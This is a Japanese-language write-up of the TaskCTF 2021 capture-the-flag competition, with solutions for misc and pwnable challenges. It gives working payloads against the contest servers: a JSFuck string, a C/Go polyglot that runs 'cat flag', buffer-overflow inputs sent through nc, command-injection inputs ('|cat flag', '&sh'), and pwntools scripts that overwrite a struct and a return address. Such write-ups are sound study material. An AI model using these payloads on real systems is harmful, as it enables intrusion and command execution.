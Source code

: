 # TaskCTF 2021 Writeup

面白かったです！主催者の[task4233](https://www.twitter.com/task4233)さん、素晴らしいCTFをありがとうございました。

## Welcome

### welcome

Sanity Check. C&P.

## Misc

### js

うまく記号だけのJavaScriptコードで `yes` という文字列を表現してPOSTすればFlagを取得することができます。([参考1](https://tech.atsu-maru.co.jp/entry/2019/01/28/080000),[参考2](https://github.com/aemkei/jsfuck/blob/master/jsfuck.js))

```python
import requests
print(requests.post("http://34.145.29.222:30009", json={'want_flag': '(+[![]]+[+(+!+[]+(!+[]+[])[!+[]+!+[]+!+[]]+[+!+[]]+[+[]]+[+[]]+[+[]])])[[+!+[]]+[+[]]]+(!![]+([]+[]))[!+[]+!+[]+!+[]]+(![]+([]+[]))[!+[]+!+[]+!+[]]'}).text)
# taskctf{js_1s_4_tr1cky_l4ngu4ge}
```

### polyglot / polygolf

C言語、Go言語の両方で動作する（かつpolygolfでは185バイト以下のサイズの）コードを作成して送信することでFlagを取得することができます。([参考](https://gist.github.com/nelhage/813a13bd7f5adfdcfca4fb17abb1c7d6))

以下は私が書いて使用したコード。

```
// \
/*
main(){system("cat flag");}
#if 0
//*/package main
import(."fmt"
."os/exec")
func main(){f,_:=Command("cat", "flag").Output()
Print(string(f))}
// \
/*
#endif//*/
```

## Pwnable

### super_easy

BOFするように適当なPayloadを送信すればFlagを取得することができます。

```
$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' | nc 34.145.29.222 30002
Input task name
task
task name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
task done: 1094795585
taskctf{bre4k_e4sily}
```

### super_easy2

スコアの値が0x1337になるようなPayloadを送信すればFlagを取得することができます。

```
$ echo -e 'AAAAAAAAAAAAAAAA\x01\x00\x00\x00\x37\x13\x00\x00' | nc 34.145.29.222 30003
Input task name
task
task name: AAAAAAAAAAAAAAAA
task done: 1
taskctf{y0u_c4n_4ls0_0verwr1te}
```

### script_kiddie

配布されているソースコードを読んでみると、自明なOSコマンドインジェクション脆弱性が見つかるので、`cat flag` するようなPayloadを送信すればFlagを取得することができます。

```
$ echo '|cat flag' | nc 34.145.29.222 30005
Which flag do you want?taskctf{n0w_y0u_g0t_shell}
```

### super_easy3

新しく加わった `deadline` によるチェックをクリアできるようにExploitすればFlagを取得することができます。 

```c
// gcc genpayload.c -o genpayload
#include <stdio.h>
#include <stdint.h>
#include <time.h>

typedef struct {
  char name[16];
  uint32_t is_done;
  uint32_t score;
  double rate;
  time_t deadline;
} TASK;

int main()
{
    TASK task = {"AAAAAAAAAAAAAAAA",1,0x1337,999,time(NULL)};
    FILE *fp = fopen("/tmp/task.tmp", "wb");
    fwrite(&task, sizeof(TASK), 1, fp);
    return 0;
}
```

```python
from pwn import *
import subprocess

io = remote('34.145.29.222', 30004)
subprocess.run(["./genpayload"])
cs = open('/tmp/task.tmp','rb').read()
io.send(cs)
io.interactive()
```

```
$ python3 solve.py
[+] Opening connection to 34.145.29.222 on port 30004: Done
[*] Switching to interactive mode
Input task name
$
task
task name: AAAAAAAAAAAAAAAA
task done: 1
task score: 4919
task deadline: Sun Dec 12 10:11:39 2021

taskctf{n0w_y0u_kn0w_t1me_t}[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to 34.145.29.222 port 30004
```

### script_kiddie2

`sh` して `cat flag` すればFlagを取得することができます。

```
$ nc 34.145.29.222 30007
Which flag do you want?&sh

cat flag
taskctf{sh_1s_als0_0k}
```

### prediction

Return Addressを書き換えるようなExploitを書けばFlagを取得することができます。

```python
from pwn import *
import struct

io = remote('34.145.29.222', 30006)

payload = b'taskctf{'
payload += b'A'*48
payload += struct.pack('<I', 0x4013F7)
io.sendline(payload)
io.sendline(b'cat flag')
io.interactive()
```

```
> python .\prediction_solve.py
[x] Opening connection to 34.145.29.222 on port 30006
[x] Opening connection to 34.145.29.222 on port 30006: Trying 34.145.29.222
[+] Opening connection to 34.145.29.222 on port 30006: Done
[*] Switching to interactive mode
What is the flag?
***start stack dump***
0x7fff7a7cc980: 0x7b6674636b736174 <- rsp
0x7fff7a7cc988: 0x4141414141414141
0x7fff7a7cc990: 0x4141414141414141
0x7fff7a7cc998: 0x4141414141414141
0x7fff7a7cc9a0: 0x4141414141414141
0x7fff7a7cc9a8: 0x4141414141414141
0x7fff7a7cc9b0: 0x4141414141414141 <- rbp
0x7fff7a7cc9b8: 0x00000000004013f7 <- return address
0x7fff7a7cc9c0: 0x0000000000000000
0x7fff7a7cc9c8: 0x00007ff3b999c0b3
0x7fff7a7cc9d0: 0x00007ff3b9b616a0
***end stack dump***

taskctf{r0p_1s_f4mous_way}
```

別解:

```
$ strings prediction | grep taskctf{
taskctf{
taskctf{r0p_1s_f4mous_way}
```
